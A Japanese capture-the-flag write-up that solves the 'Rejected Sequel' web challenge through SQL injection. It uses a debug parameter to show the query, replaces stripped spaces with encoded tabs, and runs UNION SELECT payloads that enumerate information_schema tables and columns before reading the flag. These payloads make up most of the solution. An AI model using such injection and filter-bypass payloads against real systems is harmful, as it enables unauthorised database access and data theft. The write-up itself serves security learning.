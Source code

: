 # Rejected Sequel

150pt (164 Solves)

```txt
Look at all these movie sequels that never got released! Will yours make it through??
```

## 概要

![Rejected Sequel](./img/Rejected_Sequel.png)

入力欄に入れた文字で検索できる。

`"`を入力すると以下のようなエラーメッセージがでる。SQLiだろう。

```txt
Warning:  mysqli_fetch_array() expects parameter 1 to be mysqli_result, boolean given in /app/index.php on line 68
```

ソースコードに以下のように書いてある。  

```html
<!-- if ( isset($_GET["debug"])){ echo($sql_query); } -->
```

`/?debug`にアクセスした状態で検索するとsqlのクエリを表示してくれるようだ。

## 解

`hoge`で検索した時のリクエストが以下。

```txt
POST /?debug HTTP/1.1
Host: jh2i.com:50008
(snip)
name=hoge
```

`a b c`で検索したとき、`debug`で表示されるクエリは`abc`。スペースが削除されている。

**スペースの代わりにタブ(`%09`)を使用することで対策できる。**

### カラム数の特定  

SQLiするにあたって、selectしてるカラムがいくつあるのかを特定する。

```txt
name="%09union%09select%09"A"#
------------------------------------------------------
A
```

`A`が表示される。selectすべきカラム数は1個だとわかる。

### テーブルの列挙  

次はテーブルを列挙する。

```txt
name="%09union%09select%09table_name%09from%09information_schema.tables#
------------------------------------------------------
(snip)
flag
movies
```

テーブル名がいっぱい表示される。下の方に`flag`というテーブルがある。

### カラムの列挙

falgテーブルにどんなカラムがあるのか、列挙する

```txt
name="%09union%09select%09column_name%09from%09information_schema.columns%09where%09table_name="flag"#
------------------------------------------------------
flag
```

`flag`というカラムがあるのがわかる。

### flagの取得

```txt
name="%09union%09select%09flag%09from%09flag#
------------------------------------------------------
flag{at_least_this_sequel_got_published}
```
